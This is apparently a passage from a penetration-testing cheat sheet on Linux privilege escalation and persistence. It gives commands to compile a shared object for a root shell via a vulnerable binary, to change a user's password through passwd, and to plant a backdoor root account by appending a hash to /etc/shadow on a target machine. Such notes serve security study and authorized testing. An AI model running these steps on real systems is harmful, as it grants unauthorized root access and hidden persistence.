 Then compile it to shared object.

```bash
gcc -shared -fPIC -nostartfiles -o foo.so foo.c
```

Put the shared file to **/path/to/foo.so** .  
Now run the binary.

```bash
./example
# or
sudo ./example
```

We should get a root shell.

<br />

## Update Sensitive Information

### 1. Change Password of Current User

We need to know the current user's password.

```sh
echo -n '<current-password>\n<new-password>\n<new-password>' | passwd
```

### 2. Add Another Root User to /etc/shadow

1. **Generate New Password**

    ```sh
    # -6: SHA512
    openssl passwd -6 -salt salt password
    ```

    Copy the output hash.

2. **Add New Line to /etc/shadow in Target Machine**

    You need to do as root privileges.

    ```sh
    echo '<new-user-name>:<generated-password-hash>:19115:0:99999:7:::' >> /etc/shadow
    ```

3. **Switch to New User**

    To confirm, switch to generated new user.

    ```sh
    su <new-user>
    ```

<br />
